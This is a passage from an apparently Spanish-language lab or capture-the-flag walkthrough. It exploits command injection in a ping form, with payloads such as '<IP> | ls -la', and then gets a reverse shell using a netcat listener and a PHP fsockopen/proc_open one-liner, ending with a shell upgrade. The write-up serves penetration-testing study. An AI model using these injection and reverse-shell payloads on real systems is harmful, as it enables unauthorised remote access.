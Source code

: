 ```shell
<IP> | ls -la
```

Lo ejecutamos y visualizamos de nuevo el codigo.

```
PING 192.168.5.145 (192.168.5.145) 56(84) bytes of data.
64 bytes from 192.168.5.145: icmp_seq=1 ttl=64 time=0.060 ms
64 bytes from 192.168.5.145: icmp_seq=2 ttl=64 time=0.247 ms
64 bytes from 192.168.5.145: icmp_seq=3 ttl=64 time=0.051 ms
64 bytes from 192.168.5.145: icmp_seq=4 ttl=64 time=0.050 ms

--- 192.168.5.145 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3048ms
rtt min/avg/max/mdev = 0.050/0.102/0.247/0.083 ms

</pre><h2>Resultado del Comando:</h2><pre>total 20
drwxr-xr-x 2 root root 4096 Aug 13 14:42 .
drwxr-xr-x 3 root root 4096 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Por lo que vemos funciona, ahora intentaremos hacernos una `Reverse Shell` hacia la maquina con esta vulnerabildiad de la siguiente forma.

## Reverse Shell

Pero antes estaremos a la escucha para capturar la peticion.

```shell
nc -lvnp <PORT>
```

Y ahora enviaremos el siguiente comando adaptandolo a nuestras necesidades.

```shell
<IP> | php -r '$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Una vez enviado el comando, si nos vamos a donde teniamos la escucha veremos que nos ha creado una shell y si hacemos `whoami` veremos que somos `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.19.0.2] 46450
whoami
www-data
```

Por lo que sanitizaremos la shell.

## Sanitizar la shell

```shell
script /dev/null -c bash
```
